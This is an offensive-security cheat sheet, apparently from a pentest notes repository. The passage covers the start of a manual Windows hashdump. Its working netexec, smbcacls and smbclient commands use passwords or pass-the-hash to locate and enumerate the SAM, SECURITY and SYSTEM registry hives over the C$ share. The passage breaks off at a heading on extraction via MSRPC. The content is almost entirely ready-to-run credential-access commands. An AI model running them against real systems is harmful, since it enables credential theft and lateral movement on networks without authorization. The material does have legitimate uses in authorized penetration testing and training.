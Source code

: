 # Unix Shell

Search Tag(s): #post-exploitation #credential-access-and-dumping #network-protocols #msrpc #smb #staying-off-the-land #windows

## 01 - Manual Hashdump

### 1.1 - Search hive files

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --spider "C$" --spider-folder /Windows/System32/config/ --regex "(SAM|SECURITY|SYSTEM)"

$ netexec smb <IP> -u <username> -H <nt_hash> [-d <domain> | --local-auth] --spider "C$" --spider-folder /Windows/System32/config/ --regex "(SAM|SECURITY|SYSTEM)"
```

### 1.2 - Enumerate hive files

Using `smbcacls` to enumerate the existing files.

```
$ cat << EOF > hive_files.txt
/Windows/System32/config/SAM
/Windows/System32/config/SECURITY
/Windows/System32/config/SYSTEM
/Windows/Repair/SAM
/Windows/Repair/SYSTEM
EOF

$ while read line; do echo "Hive filename: $line\n"; smbcacls -U "[<domain>/]<username>%<password>" //<IP>/C$ $line 2>/dev/null; done < hive_files.txt

$ while read line; do echo "Hive filename: $line\n"; smbcacls -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> //<IP>/C$ $line 2>/dev/null; done < hive_files.txt
```

Using `smbclient` to enumerate the existing files while enabling `showacls`.

```
smb: \> showacls

smb: \> ls /Windows/System32/config/SAM

smb: \> ls /Windows/System32/config/SECURITY

smb: \> ls /Windows/System32/config/SYSTEM
```

### 1.3 - Extract hive files

#### 1.3.1 - MSRPC Network Protocol
